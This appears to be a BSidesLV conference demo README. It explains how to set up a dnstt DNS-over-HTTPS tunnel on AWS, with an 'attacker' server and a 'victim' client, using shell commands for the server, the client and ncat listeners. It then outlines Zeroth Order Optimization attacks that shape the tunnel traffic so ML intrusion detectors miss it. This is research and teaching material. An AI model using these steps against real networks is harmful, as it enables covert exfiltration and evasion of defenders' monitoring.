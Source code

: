 # BsidesLV - Demo

## Generic Algorithm to attack any model using Zeroth Order Optimization (ZOO) 

1. Choose the tool to generate malicious traffic
- Example: doh tunnel tools: dnstt, iodine, doh-proxy, etc
2. Generate malicious feature instances (ex: pcap)
- You can use tcpdump, wireshark, scapy (python library), or dohlyzer.
3. Choose the features to attack (best features are you can change like packet size and time)
4. Set up the limits of chosen feature for attacking (ex: positive numbers to time or 30\% for packet size)
5. Attack
6. Get the most modified features (ex: 4 most)
7. Use the gotten numbers to set up your tool

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using dnstt on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models    
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the 
Zoo Attack (Vanilla) and Zoo Target Attack.
In the Zoo Vanilla attack, the success rate is high because the attack algorithm faces fewer constraints when generating 
adversarial examples.
Conversely, in the Zoo Target attack, the success rate is lower due to the increased constraints on the attack algorithm. 
However, it is important to note that despite the lower success rate, this attack is more realistic. 
In a real-world scenario, we just need a single successful attack instance to achieve the desired effect.

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)   
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the Target Zoo Attack in a real-world scenario.
The model is loaded by the [nids-ml.py](./feature-extractor/meter/nids-ml.py) script, simulating a real ML-based NIDS to detect DoH tunnel. The script captures the network traffic, normalize it and classifies it using the loaded model.
We use auxiliary scripts ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py) | [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py)) to produce tunnel data and send it to the NIDS. 

![Demo Target Zoo Attack](../img/demo_target_zoo.png)

### Steps

1. Run steps 1-6 from [Demo 1](#demo1---doh-tunnel-basics---101).
Note: Do not create the backend application on the client side.
2. Run [Target Zoo Attack](#zoo-target-attack-) - The steps are the same as showed in [Demo 2](#demo-2---attacking-doh-tunnel-detection-models-).
3. On the local machine, start the NIDS script, specifying the interface (-n), the model path a (-m) to save the captured data (-c).

```shell
cd feature-extractor/meter
./nids-ml.py -n <INTERFACE> --enable-nids -m ../../bsides-experiments/ -c /tmp/captured.csv
```

4. Choose the (best) features you want to reproduce based on the two last [notebook](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb) cells 
and replace the values on the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script.

5. Run the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script to send the adversarial examples to the NIDS.
Tip: You can run the benign traffic script ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py)) to compare the results.

